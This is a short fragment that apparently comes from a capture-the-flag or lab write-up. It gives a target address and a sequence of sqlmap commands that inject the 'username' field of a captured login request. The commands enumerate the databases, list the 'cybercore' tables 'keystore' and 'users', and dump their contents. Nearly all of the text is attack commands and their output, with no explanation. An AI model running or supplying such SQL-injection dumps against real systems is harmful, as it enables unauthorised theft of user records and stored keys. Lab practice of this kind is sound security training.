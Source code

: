http://94.237.58.6:35591

sqlmap -r http-login.post -p username -o --dump-all

databases:

    cybercore
    information_schema
    test

sqlmap -r http-login.post -p username -o -D cybercore --tables

database 'cybercore' tables:

    keystore
    users

sqlmap -r http-login.post -p username -o -D cybercore --dump-all

